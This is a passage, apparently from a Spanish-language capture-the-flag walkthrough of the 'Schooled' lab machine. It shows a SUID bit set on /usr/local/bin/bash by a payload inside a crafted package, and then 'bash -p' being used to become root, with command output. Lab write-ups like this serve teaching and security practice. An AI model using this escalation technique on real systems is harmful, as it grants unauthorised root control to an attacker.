 `Miramos` los `privilegios` que tiene la `bash` y vemos que tiene `SUID`, eso es debido a que el `payload` que hemos usado para generar el archivo `mypackage-1.0_5.txz` le da privilegios `SUID` a la `bash`

```
[jamie@Schooled ~]$ ls -l /usr/local/bin/bash
-rwsr-xr-x  1 root  wheel  941288 Feb 20  2021 /usr/local/bin/bash
```

`Ejecutamos` la `bash` como el `propietario` y nos `convertimos` en `root`

```
[jamie@Schooled ~]$ bash -p
[jamie@Schooled ~]# whoami
root
```
